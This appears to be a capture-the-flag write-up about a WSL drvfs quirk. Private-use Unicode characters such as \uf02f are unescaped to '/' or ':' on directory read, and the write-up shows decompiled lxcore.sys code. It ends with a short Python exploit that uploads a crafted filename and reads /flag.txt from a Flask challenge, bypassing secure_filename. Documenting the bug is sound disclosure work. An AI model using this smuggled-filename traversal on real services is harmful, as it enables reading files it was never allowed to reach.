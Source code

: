 ## Intro & Vulnerability

I use WSL. Someday I created a file named ':', in /mnt/c/Users/\<username\>. Surprisingly it worked. Outside, a file with a strange space in the name is created.

```
$ touch ":"

$ ls -al
total 0
drwxrwxrwx 1 jinmo jinmo 512 Jun 21 17:39 .
drwxrwxrwx 1 jinmo jinmo 512 Jun 21 17:39 ..
-rwxrwxrwx 1 jinmo jinmo   0 Jun 21 17:39 :

$ cmd.exe /c dir
 Volume in drive C has no label.
 Volume Serial Number is 7E37-D379

 Directory of C:\Users\<username>\test

2019-06-21  05:39 PM    <DIR>          .
2019-06-21  05:39 PM    <DIR>          ..
2019-06-21  05:39 PM                 0 
               1 File(s)              0 bytes
               2 Dir(s)               0 bytes free
```

According to python console, the character above is `\uf03a`. The ASCII code of ':' is 0x3a, so I could guess that `\uf02f` may work.

```
$ python
>>> open(u"\uf02fyey", "wb")
>>> exit()

$ ls -al
ls: cannot access '/yey': No such file or directory
total 0
drwxrwxrwx 1 jinmo jinmo 512 Jun 21 17:45 .
drwxrwxrwx 1 jinmo jinmo 512 Jun 21 17:39 ..
-????????? ? ?     ?       ?            ? /yey

$ mount
...
C:\ on /mnt/c type 9p (rw,noatime,sync,dirsync,aname=drvfs;path=C:\;...)
```

Oops. Mount shows that it's mounted with "drvfs" file system. In WSL1, it showed `/mnt/c type drvfs`.

I grepped "drvfs" in System32 folder. In LxUtilFsReadDir (lxcore.sys):

```c
j = 0i64;
remain = size;
do
{
    c = filename[j] - 0xF000;
    if ( c > 0xFFu )
        needs_unescape = 0;
    else
        needs_unescape = LxUtilpNtPathCharNeedsEscape(c);
/*
Escaped / unescaped characters: ['\x00'~'\x1f', '"', '*', '/', '<', '>', '?', '\\', '|'], and ':'.
*/
    if ( needs_unescape )
        filename[j] = c;
    ++j;
    --remain;
}
while ( remain );
```

So relying on readdir in drvfs is dangerous, currently. I'm gonna report this.

## Exploit

```python
import requests
import json
import base64

sess = requests.Session()
host = 'http://0e1.kr:10000'

# Upload a file
sess.post(host+'/post',
          files={'a': (u'\uf02fflag.txt', 'a')}, allow_redirects=False)

# Refresh session cookie to get file identifier
sess.post(host+'/post', allow_redirects=False)

# By default, session cookie is decodable in Flask
session = sess.cookies['session'].split('.')[1]+'=='
session = base64.urlsafe_b64decode(session)
session = json.loads(session.decode('zlib'))

files = session['files']

# ... and magic!
print sess.get(host+'/read/'+files.keys()[0]).content
```

`os.listdir` returns ['/flag.txt'], and `secure_filename` doesn't filter `\uf0xx`.

